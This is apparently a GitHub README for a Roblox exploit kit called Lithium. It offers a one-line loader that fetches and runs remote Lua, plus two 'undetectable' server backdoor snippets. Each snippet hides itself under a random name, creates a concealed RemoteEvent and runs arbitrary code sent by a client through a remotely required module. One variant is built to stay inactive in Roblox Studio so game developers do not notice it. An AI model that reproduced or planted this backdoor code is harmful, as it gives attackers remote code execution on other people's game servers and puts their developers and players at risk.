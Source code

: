 <img src="https://github.com/Bbblaxtop/Lithium-Roblox/blob/main/res/banner1.png?raw=true"></img>

#

- ⚡ Powerful Executor
- ✅ Undetectable Backdoor
- 😎 Simple UI
# 

### Scanner
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/Bbblaxtop/Lithium-Roblox/refs/heads/main/src/scanner.lua"))()
```

### Backdoor
```lua
script.Name = game.HttpService:GenerateGUID(false); script.Parent = game:GetService("Chat"); local s1 = Instance.new("RemoteEvent"); s1.Parent = game.LocalizationService; s1.Name = game.HttpService:GenerateGUID(false); s1.OnServerEvent:Connect(function(s2,s3) local s4 = require(14382140693) s4(s3)() end)
```

### Backdoor Non Studio
```lua
if not game:GetService("RunService"):IsStudio() script.Name = game.HttpService:GenerateGUID(false); script.Parent = game:GetService("Chat"); local s1 = Instance.new("RemoteEvent"); s1.Parent = game.LocalizationService; s1.Name = game.HttpService:GenerateGUID(false); s1.OnServerEvent:Connect(function(s2,s3) local s4 = require(14382140693) s4(s3)() end) end
```

#

#### 👇Contact with me👇

https://forms.gle/Z1vGBpp4xUr8j53J7
